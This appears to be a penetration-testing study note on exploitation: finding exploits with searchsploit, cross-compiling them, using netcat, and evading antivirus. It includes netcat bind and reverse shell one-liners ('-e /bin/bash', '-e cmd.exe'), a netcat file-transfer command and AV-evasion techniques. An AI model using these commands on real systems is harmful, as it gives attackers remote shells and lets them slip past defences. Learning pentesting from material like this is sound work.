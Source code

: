 # EXPLOITATION

Techniques and tools used to gain an initial foothold on a target.
1. Identify vulnerable services
2. Identify and prepare exploit code
3. Gainin access
    - msfconsole
    - manual
4. Obtaining remote access
5. Bypass AV
6. Pivoting

## Banner Grabbing
Is a information gathering technique used to enumerate information of OS, services and ports of the target.
- Nmap
- Netcat
- Authetication with the service: ssh, ftp,...

**Notes**: In web applications try to find shellshock vulnerability
**Tip**: to find easily nmap scripts `ls -la /usr/share/nmap/script | grep <>`

## Searching exploits
- Exploit-db
- Rapid7
- packetstorm

### Searchsploit
Has the entire exploit-db database of exploits. Located in /usr/share/exploitdb/exploits.
```
searchsploit -u #updates
searchsploit -m <id> #detail info
searchsploit -c <id> #copy exploit to workin directory
searchsploit -t #help with searchs
searchsploit -w <id> #web page of exploit
searchsploit -e <id> #opens exploit to read and edit it
```

## Cross compiling exploits
Process of compioling code for a platform other than the one performing the compilation (transform from the developed language to a portable executable or binary one)
To compile exploit code developed in C:
- For Linux: `gcc -pthread <file in C> -o <file name of the output> -laypt`
- For Windows from Linux: `i686-w64-mingw32-gcc <file in C> -o <file name of the output> -lws2_32` 

## Netcat
Working utilty used to read an write data to network connectios using TCP and UDP. Utilizes client-server communication with two modes:
- **Client mode**: to connect to any TCP/UDP ports
- **Server mode**: to listen for connections from clients
```
nc --help
man nc #manual
nc -v <ip> <port> #verbose
nc -u <ip> <port> #udp
nc -p <local port>> <ip> <destination port> 
nc -l <ip> <port>
nc -n #desable resolving domain names
nc -nv <ip> <port> < <file to send to that ip>
nc.exe -nvlp <port> > <file where data connectios are going to be saved>
```
**Listener**
`nc -nvlp <port>`
`nc -nvlpu <port>`

**Connection**
`nc.exe -nv <ip> <port>`
`nc.exe -nvu <ip> <port>`
`pythob -m SimpleHTTPServer 80`

## Bind shells
Remote shell where the attacker connects directly to a listener on the target system

**Attacker**
`nc -nv <ip> <port>`
`nc.exe -nv <ip> <port>`

**Target**
Set up to execute shell when clients connects:
`nc.exe -nvlp <port> -e cmd.exe`
`nc -nvlp <port> -e /bin/bash`

## Reverse shells
Target connects to attacker allowing 

**Attacker**
`nc -nvlp <port>`

**Target**
`nc -nv <ip> <port> -e /bin/bash`
`nc.exe -nv <ip> <port> -e /bin/bash`

![Alt text](image-13.png)

**Notes**: payloadallthethings, revshelss.com

## Frameworks
- Powershell empire
- Starkiller

## Black box pentest
- Host discovery
- Port scanning & enumeration
- Vulnerability detection/scanning
- Expolitation
    - Manual
    - Automated
- Post exploitation
    - Privilege escalation
    - Persistence
    - Dumping hashes

## AV evasion with Shelter

To avoid detection throughout their compromise.
1. Signature based detection: unique sequence of bytes that nuiquely indentifies malware
2. Heuristic based detection: rules or decisions to determine wether ir malicious or not
3. Behavior based detection: monitoring behavior 

**Techniques**:
- Obfuscation: reorganizes code to make it harder to analyze
- Encoding: changing data unto new format
- Packing: generate executable with new binary structure with smaller size
- Crypters: encrypts code 
**Tools**: Shelter, Invoke-obfuscation




